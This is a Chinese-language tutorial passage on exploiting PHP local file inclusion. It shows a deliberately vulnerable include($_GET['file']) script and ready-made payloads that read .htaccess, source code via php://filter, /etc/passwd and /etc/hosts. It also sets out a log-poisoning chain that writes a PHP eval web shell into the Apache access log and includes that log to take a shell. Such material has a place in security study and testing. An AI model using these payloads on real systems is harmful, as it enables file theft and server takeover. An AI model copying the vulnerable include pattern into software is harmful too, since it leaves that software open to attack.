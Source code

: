 

------

## 漏洞利用

### 本地文件包含漏洞

测试源码

```php
<?php
$file = $_GET['file'];
include($file);
?>
```

#### 1、包含同目录下文件

```php
包含普通文件
?file=.htaccess

php伪协议包含php文件
?file=php://filter/read=convert.base64-encode/resouce=index.php
```



#### 2、包含系统其他文件

前提：

* 需要对包含的文件具有可读权限

```php
包含/etc/passwd文件
?file=/etc/passwd

包含/etc/hosts文件
?file=/etc/hosts
```



#### 3、包含Web日志文件Getshell

前提：

* 需要知道Web日志文件存放路径
* Web日志可读

这里假设目标服务器上运行的是Apache中间件，访问日志存放在/var/log/apache2/access.log文件下

```php
将一句话目标写入到access.log中
http://目标站点域名或IP/<?php @eval($_POST['cmd']);?>

包含日志文件Getshell
?file=/var/log/apache2/access.log
```
